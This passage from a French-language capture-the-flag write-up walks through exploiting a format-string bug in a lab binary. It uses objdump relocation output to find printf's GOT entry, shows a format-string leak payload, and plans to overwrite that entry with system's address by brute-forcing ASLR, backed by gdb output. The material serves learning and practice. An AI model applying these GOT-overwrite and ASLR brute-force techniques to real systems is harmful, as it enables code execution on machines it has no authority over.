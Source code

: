 Ici le chemin est encore plus court, car l'adresse est aussi placée dans la `PLT` (`Procedure Linkage Table`).  

L'adresse que l'on va écraser est celle qui se trouve à `0x8049a48`.  

On peut l'obtenir plus rapidement en affichant les relocations du programme avec `objdump` :  

```console
$ objdump -R bf

bf:     format de fichier elf32-i386                                                                                                                                                                           

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049a38 R_386_GLOB_DAT    __gmon_start__
08049a48 R_386_JUMP_SLOT   printf
08049a4c R_386_JUMP_SLOT   getchar
08049a50 R_386_JUMP_SLOT   __gmon_start__
08049a54 R_386_JUMP_SLOT   exit
08049a58 R_386_JUMP_SLOT   __libc_start_main
08049a5c R_386_JUMP_SLOT   memset
08049a60 R_386_JUMP_SLOT   putchar
```

## Exploitation de la chaine de format (1er cas : brute-force ASLR)

Récapitulatif de notre objectif : écraser l'adresse de `printf` dans la *GOT* par celle de `system` en utilisant la technique de *danigargru*.  

Ma première idée pour récupérer l'adresse de `printf` était d'utiliser `%s` en mettant l'adresse de la *GOT* sur la pile et utiliser un formateur de position pour l'afficher (donc `\0x48\x9a\x04\x08%16$s`).  

Seulement comme j'ai déjà pu l'évoquer sur mon writeup de *Hell*, communiquer avec un programme est parfois plus compliqué que ce que l'on pense.  

Ici le programme `/opt/bf` ne flushe jamais les données affichées. Du coup malgré tous mes essais, impossible de récupérer l'output du `%s` même si le programme se bloque ensuite sur un appel à `getchar`. Les données de sortie ne sont retournée qu'à la fin de l'exécution du programme :(  

J'ai tenté de trouver une solution alternative, mais arrivé à cours d'idée j'ai choisi de bruteforcer l'adresse de `system`.  

Le principe d'une attaque brute-force sur l'*ASLR* est connu de longue date, mais je ne savais pas dans quelle mesure cela serait effectif.  

Avec *gdb* on peut voir que pour chaque lancement du programme l'adresse de `system` change, mais conserve tout de même certains octets (au début et à la fin).  

Notez que le fait que l'adresse de `system` se termine par un octet nul n'est sans doute pas un hasard, mais une protection contre les attaques *ret-into-libc*.  

```
(gdb) set disable-randomization off
(gdb) p system
$2 = {<text variable, no debug info>} 0xb76ae000 <system>
...
(gdb) p system
$3 = {<text variable, no debug info>} 0xb7617000 <system>
...
(gdb) p system
$4 = {<text variable, no debug info>} 0xb7645000 <system>
```
